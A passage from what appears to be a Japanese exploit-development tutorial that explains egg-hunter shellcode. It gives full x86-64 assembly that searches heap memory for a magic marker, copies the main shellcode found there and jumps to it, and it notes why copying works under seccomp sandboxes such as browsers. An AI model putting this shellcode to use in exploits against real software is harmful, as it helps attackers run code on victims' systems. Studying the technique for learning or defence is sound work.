 R9レジスタにヒープのアドレスが入っていることがわかります。ここを起点に本体のシェルコードを探索できそうです。大抵の場合は今回のように、レジスタやスタックに探索したいアドレスがあるので、そこを起点にマジックナンバーを探せば良いです。

Egg Hunterのシェルコードは次のようになります。
```nasm
_start:
  mov r15, r9                   ; heap address
  mov r14, 0xdeadbeefcafebabe   ; magic
  and r15, 0xfffffffffffffff0
search:
  mov rax, [r15]
  cmp rax, r14
  jz found
  sub r15, 0x10
  jmp search
found:
  add r15, 8
  mov edx, 0x800
  mov rsi, r15
  lea rdi, [rel main]
  call memcpy
  jmp main

;; memcpy sourceからdestinationにデータをコピーする。
;;   rdi: destinationのアドレス
;;   rsi: sourceのアドレス
;;   rdx: コピーするサイズ
memcpy:
  mov rcx, rdx
  repnz movsb
  ret

main:
```

<div class="balloon_l">
  <div class="faceicon"><img src="../img/piyo_born.png" alt="ひよこ先生" ></div>
  <p class="says">
    見つけたシェルコードを<code>mprotect</code>で実行可能にしてもよいですが、ブラウザのようにseccompでシステムコールを制限していることがあるから、コピーの方が一般的です。